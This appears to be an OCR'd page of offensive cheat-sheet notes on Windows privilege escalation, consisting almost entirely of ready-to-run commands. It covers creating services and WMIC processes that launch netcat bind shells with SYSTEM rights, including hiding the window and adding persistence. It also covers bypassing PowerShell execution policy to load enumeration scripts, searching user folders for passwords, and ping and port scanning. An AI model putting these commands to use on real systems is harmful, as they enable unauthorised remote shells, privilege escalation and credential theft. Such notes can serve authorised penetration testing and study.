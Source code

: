 # Privilege Escalation

##

## Privilege Escalation

## Services

Sc \hostname/ip create ncservice binpath= "c:\tools\nc\nc.exe -l -p 2222 -e cmd.exe" ///IMPORTANT space after "binpath= "

Sc \hostname/ip query ncservice => Service is stopped

Make more persistent Sc \hostname create ncservice2 binpath= "cmd.exe /k c:\tools\nc\nc.exe -l -p 2222 -e cmd.exe"

sc \w10 start ncservice2 //will then crash after 30sec but doesnt matter Nc 127.0.0.1 222 ==> run with SYSTEM privileges via the servic created

Victim monitor for port 2222 connections: Netstat nao 1 | find ":2222"

### WMIC

wmic process call create "c:\tools\nc\nc.exe -l -p 4444 -e cmd.exe" ==> Creates cmd popup for user, bad! Use -d option

wmic process call create "c:\tools\nc\nc.exe -d -l -p 4444 -e cmd.exe"

Nc 127.0.0.1 4444

### PrivEsc Scripts

PrivscCheck: [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

powershell -ep bypass .\PrivescCheck.ps1 Invoke-PrivescCheck -Extended -Report PrivescCheck\_%COMPUTERNAME% -Format TXT,CSV,HTML,XML

JAWS Enum: [https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)

powershell -ep bypass .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt

PowerSploit: [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)



### Powershell

From a PowerShell prompt without modifying the execution policy: Get-Content .\PrivescCheck.ps1 | Out-String | IEX

## Network

**Search for a pattern "password" in a directory:** ls -r c:\users | % {sls -path $\_ -pattern password} 2>$null

**Setup a new service which will start cmd with netcat started:** New-Service -Name "ncservice" -BinaryPathName "cmd.exe /k C:\tools\nc\nc.exe -l -p 3333 -e cmd.exe" -StartupType manual Start-Service -Name ncservice Sc.exe delete ncservice

**Ping sweep with powershell:** 1..255 | % {ping -n 1 -w 100 10.10.10.$\_ | sls ttl}

**Portscan:** 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open"} 2>$null
